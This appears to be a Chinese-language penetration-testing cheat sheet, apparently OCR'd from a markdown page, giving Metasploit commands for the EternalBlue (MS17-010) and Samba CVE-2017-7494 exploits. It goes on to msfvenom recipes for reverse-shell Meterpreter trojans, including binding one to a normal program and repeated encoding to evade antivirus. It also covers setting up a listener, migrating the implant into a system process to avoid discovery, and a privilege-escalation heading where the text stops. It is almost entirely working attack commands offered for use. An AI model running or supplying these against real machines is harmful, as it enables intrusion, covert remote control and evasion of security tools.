 > msfconsole
>
> search MS17-010
>
> use exploit/windows/smb/ms17_010_eternalblue
>
> set payload windows/x64/meterpreter/reverse_tcp
>
> set RHOSTS 192.168.1.143    //目标靶机ip
>
> set LHOST 192.168.1.142    //本机IP
>
> exploit

##### CVE-2017-7494

> **服务器版的永恒之蓝**
>
> > use exploit/linux/samba/is_known_pipename
> >
> > set RHOST 目标IP
> >
> > set targets 合适targetss
> >
> > run

##### 木马后门

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.64.7 LPORT=1234 -f exe >/root/1.exe
>
> -p 参数指定一个payload ,	-f 参数指定生成的文件格式、 其中需要设置本地监听的IP和端口号

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.64.7 LPORT=1234 -x /root/cmd.exe -e x86/shikata_ga_nai -i 5 -f exe -o /root/test.exe
>
> -x 参数选项绑定一个正常程序，可达到免杀， -e 参数指定编码方式 , -i  参数指定编码次数,-o参数保存到指定位置

> **监听**：
>
> > use exploit/multi/handler
> >
> > set payload windows/x64/meterpreter/reverse_tcp
> >
> > set lhost 192.168.64.7
> >
> > set lport 1234
> >
> > run

##### 后渗透应用

> **为了方便控制主机**
>
> > shell 	 切换到目标主机，前提已经被控制
> >
> > exit 		切换回Meterpreter
>
> **防止木马发现**
>
> > 可以把木马迁移到系统进程中
> >
> > ps 查看目标所有进程
> >
> > run post/windows/manage/migrate	切换到一个进程中
>
> **提权**